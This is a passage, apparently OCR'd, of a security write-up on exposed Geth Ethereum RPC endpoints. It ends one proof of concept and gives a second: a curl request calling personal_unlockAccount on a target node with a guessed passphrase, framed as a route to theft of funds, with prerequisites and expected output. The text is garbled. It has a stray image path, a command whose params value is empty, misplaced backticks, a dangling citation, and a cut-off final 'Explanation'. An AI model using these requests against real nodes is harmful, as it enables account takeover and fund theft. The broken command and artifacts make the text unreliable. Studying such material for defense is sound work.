             //... eth protocol details...
          }
        }
      }
    }
    ```
    
    An error response (e.g., `{"code":-32602,"message":"method not found"}`) would indicate the method is not accessible.
    
- Explanation:
    
    This PoC demonstrates that an unauthenticated attacker can query administrative information from the node. The ease of this request highlights the low barrier to interacting with exposed RPC interfaces.
    
**PoC 2: Attempting Account Unlock using `personal_unlockAccount` (Demonstrates Potential for Fund Theft)**

This PoC attempts to unlock an account managed by the Geth node. This is a highly sensitive operation and, if successful, could lead to theft of funds.

- **Prerequisites:**
    - The `personal` API namespace must be exposed on the target node.
    - The `-allow-insecure-unlock` flag must be enabled on the Geth node.
    - The attacker needs a target account address (e.g., `0xACCOUNT_ADDRESS`) present on the node. This might be obtained if `personal_listAccounts` is also exposed or through other reconnaissance.
    - The attacker needs to guess or know the passphrase for the account.
- Command:
    
    Replace <TARGET_NODE_IP> with the IP address, 0xACCOUNT_ADDRESS with the target account, and "guessed_password" with a common or known passphrase. The duration 300 unlocks the account for 300 seconds (5 minutes).
    
    ```Bash
    
    `curl -X POST --data '{"jsonrpc":"2.0","method":"personal_unlockAccount","params":,"id":1}' -H "Content-Type: application/json" http://<TARGET_NODE_IP>:8545`
    ```
    
- Expected Vulnerable Output (if the password is correct and conditions are met):
    
    A successful unlock operation will return true, as shown in 46:
    
    ```JSON
    
    {
      "jsonrpc": "2.0",
      "id": 1,
      "result": true
    }`
    
    If the password is incorrect, or if `--allow-insecure-unlock` is not enabled, or if the `personal` API is not exposed, an error will be returned. For example, if unlocking is forbidden: `{"jsonrpc":"2.0","id":1,"error":{"code":-32000,"message":"account unlocking is forbidden"}}`.
    ```
    
- Explanation:
    
